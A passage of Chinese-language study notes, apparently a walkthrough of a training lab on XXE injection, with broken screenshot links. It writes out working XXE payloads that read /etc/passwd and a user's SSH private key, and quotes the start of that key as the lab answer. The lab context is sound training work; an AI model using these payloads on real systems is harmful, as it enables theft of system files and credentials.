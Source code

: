 2.现在让我们尝试读取 `/etc/passwd`文件内容

![image-20221205112504755](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221205112504755.png)

能够成功读取(使用的payload同样经过了URL编码，具体的payload内容见上一小节知识点)。

**答题**

![image-20221205112734898](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221205112734898.png)

启动目标机器，访问目标站点，进行XXE漏洞利用：

![image-20221205190226634](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221205190226634.png)

在攻击框中使用XXE payload--用于显示name值（此处显示的是自己在XML中设定的某个name值）：

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>Hihihi</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

![image-20221205190347909](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221205190347909.png)

在攻击框中使用XXE payload--用于查看`/etc/passwd`文件内容，获取目标站点所对应系统的当前用户名：

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

![image-20221205191515365](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221205191515365.png) ![image-20221205190725517](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221205190725517.png)

在Linux系统中，用户对应的SSH密钥的默认保存路径为\*\*\*/home/用户名/.ssh/id\_rsa\*\*\* ；此处的用户名为falcon，所以路径为`/home/falcon/.ssh/id_rsa`。

![image-20221205190035962](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221205190035962.png)

在攻击框中使用XXE payload--用于查看当前用户falcon的私钥内容：

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>                                                    
<root>&read;</root>
```

![image-20221205191357202](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221205191357202.png) ![image-20221205191242778](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221205191242778.png)

> falcon的私钥前18个字符：MIIEogIBAAKCAQEA7

## \[严重程度TOP5] 损坏的访问控制
